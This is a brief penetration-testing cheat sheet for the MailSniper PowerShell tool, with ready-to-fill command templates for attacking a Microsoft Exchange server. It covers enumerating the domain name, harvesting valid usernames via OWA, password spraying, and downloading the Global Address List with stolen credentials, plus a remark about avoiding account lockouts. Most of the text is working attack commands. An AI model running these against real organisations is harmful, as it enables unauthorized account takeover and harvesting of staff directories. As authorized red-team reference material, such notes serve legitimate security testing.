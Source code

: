 # MailSniper

---

## Import MailSniper

See [[powershell#Import a PowerShell Module]].

---

## Enumerate the NetBIOS Name of the Target Domain

With MailSniper imported:

```powershell
Invoke-DomainHarvestOWA -ExchHostname $IP_ADDRESS_OF_EXCHANGE_SERVER
```

---

## Determine Valid User Accounts Against an Exchange Server

```powershell
Invoke-UsernameHarvestOWA -ExchHostname $IP_ADDRESS_OF_EXCHANGE_SERVER -Domain $NETBIOS_NAME_OF_DOMAIN -UserList $PATH_TO_USERNAME_FILE -Outfile $PATH_TO_OUTPUT_FILE
```

---

## Password Spray

```powershell
Invoke-PasswordSprayOWA -ExchHostname $IP_ADDRESS_OF_EXCHANGE_SERVER -UserList $PATH_TO_VALID_USERNAME_FILE -Password $PASSWORD
```

`$PATH_TO_VALID_USERNAME_FILE` is output from [[MailSniper#Determine Valid User Accounts Against an Exchange Server|determining valid user accounts with MailSniper]].

**Note** that these authentication attempts may count towards the domain lockout policy for users. Too many attempts in a short time period is not only loud, but can lock out accounts.

---

## Download the Global Address List

Valid credential required.

```powershell
Get-GlobalAddressList -ExchHostname $IP_ADDRESS_OF_EXCHANGE_SERVER -UserName $DOMAIN\$USERNAME -Password $PASSWORD -Outfile $PATH_TO_OUTPUT_FILE
```

---

## References

[MailSniper - GitHub Repository](https://github.com/dafthack/MailSniper)
